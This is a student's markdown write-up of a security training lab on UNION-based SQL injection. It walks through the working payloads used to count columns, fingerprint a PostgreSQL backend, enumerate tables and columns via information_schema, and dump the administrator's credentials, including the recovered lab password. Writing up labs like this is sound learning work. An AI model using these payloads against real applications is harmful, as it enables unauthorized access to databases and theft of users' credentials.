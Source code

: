 # Lab 05 – SQLi: Listing the database contents (non-Oracle)

Goal:  
use SQL injection to enumerate the database contents on a non-Oracle backend (e.g., MySQL/MSSQL).  
specifically → extract table names and column names by querying the `information_schema` tables.

What I did: 
- first i tested if its vulnerable to SQL injection by just typing ' in category
- intercepted the request that sets the product category filter in Burp & sent it to repeater 
- determine the number of columns using order by clause, confirmed it was returning 2 columns

here’s the screenshot showing the number of columns test worked:
![Number of columns result](../images/sqli/04-db-version-mysql-mssql/numberofcol.png)

- find the data type for the columns by using: UNIION SELECT NULL, NULL --
  i tested UNION SELECT 'a', 'b' -- and it gave 200 OK = both colums accept type string
  
- figure out the database version since we dont know the database software we are gonna depend on which one gives us 200 OK

' UNION SELECT @@version, NULL -- 500 internel server error -> not microsoft
' UNION SELECT version(), NULL -- 200 OK -> so now we know its PostgreSQL (PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4))
  
- output the table names in the database
' UNION SELECT table_name, NULL FROM information_schema.tables --

users_dbqlkm

- output the column names of the table 
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_dbqlkm' --

username_qbetwu
password_vbkewi

- output the usernames and passwords
' UNION SELECT username_qbetwu, password_vbkewi FROM users_dbqlkm--

- now we can see administrator and password: o00ap5pgao7vp0cq3ku1 and thats it !

Notes:
this one felt smoother because I understood the UNION flow better after Lab 03.
